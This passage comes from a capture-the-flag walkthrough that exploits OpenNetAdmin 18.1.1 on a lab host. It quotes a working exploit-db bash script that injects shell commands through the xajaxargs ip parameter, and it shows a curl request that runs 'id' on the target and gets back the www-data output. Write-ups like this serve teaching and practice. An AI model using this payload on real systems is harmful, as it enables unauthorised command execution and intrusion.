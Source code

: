 This is an instance of OpenNetAdmin:

![image-20200118135047875](https://0xdfimages.gitlab.io/img/image-20200118135047875.png)

I can see the version is 18.1.1, which it is warning is not the latest.

## Shell as www-data

### Exploit POC

Searchsploit shows a remote code execution vulnerability in this version:

    
    
    root@kali# searchsploit OpenNetAdmin
    -------------------------------------------------------------------------- ----------------------------------------
     Exploit Title                                                            |  Path
                                                                              | (/usr/share/exploitdb/)
    -------------------------------------------------------------------------- ----------------------------------------
    OpenNetAdmin 13.03.01 - Remote Code Execution                             | exploits/php/webapps/26682.txt
    OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)              | exploits/php/webapps/47772.rb
    OpenNetAdmin 18.1.1 - Remote Code Execution                               | exploits/php/webapps/47691.sh
    -------------------------------------------------------------------------- ----------------------------------------
    Shellcodes: No Result
    

There’s a link to this exploit on [exploit-db.com](https://www.exploit-
db.com/exploits/47691). It’s super simple. The script runs an infinite bash
loop taking commands and printing the output:

    
    
    #!/bin/bash
    
    URL="${1}"
    while true;do
     echo -n "$ "; read cmd
     curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
    done
    

I can test it out with just curl. One lesson I learned is that it is important
to have the trailing `/` at the end of the url:

    
    
    root@kali# curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;id&xajaxargs[]=ping"  http://10.10.10.171/ona/
    ...[snip]...
    <!-- Module Output -->
    <table style="background-color: #F2F2F2; padding-left: 25px; padding-right: 25px;" width="100%" cellspacing="0" border="0" cellpadding="0">
        <tr>
            <td align="left" class="padding">
                <br>
                <div style="border: solid 2px #000000; background-color: #FFFFFF; width: 650px; height: 350px; overflow: auto;resize: both;">
                    <pre style="padding: 4px;font-family: monospace;">uid=33(www-data) gid=33(www-data) groups=33(www-data)
    </pre>
                </div>